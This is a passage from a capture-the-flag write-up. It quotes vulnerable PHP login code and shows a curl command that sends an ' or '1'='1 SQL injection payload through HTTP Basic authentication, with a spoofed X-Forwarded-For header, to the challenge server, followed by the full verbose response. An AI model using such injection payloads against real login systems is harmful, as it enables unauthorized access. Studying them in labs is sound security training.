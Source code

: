 

Let's take a closer look at this part of code:

```php

        $db = new PDO('sqlite:database.sqlite3');

        $result = $db->query("select login, password from users where login = '$login'");
        if (!$result) { die($db->errorInfo()[2]); }
        $data = $result->fetchAll();
```

So we are dealing with __SQLite__ database and ```SELECT``` query contains obvious ___SQL Injection__ vulnerability - value we pass as ```$login``` is used in SQL query without any sanitization. Let's exploit this flaw, again using ```curl```:

```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='1":password  http://ecsm2017.cert.pl:6044/index.php/instructions

*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
* Server auth using Basic with user 'name' or '1'='1'
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> Authorization: Basic bmFtZScgb3IgJzEnPScxOnBhc3N3b3Jk
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
* HTTP 1.0, assume close after body
< HTTP/1.0 401 Unauthorized
< Date: Thu, 16 Nov 2017 23:29:24 GMT
< Server: Apache
* Authentication problem. Ignoring this.
< WWW-Authenticate: Basic realm="WRONG PASSWORD"
< Content-Length: 244
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />


</body>
* Closing connection 0
</html>
```
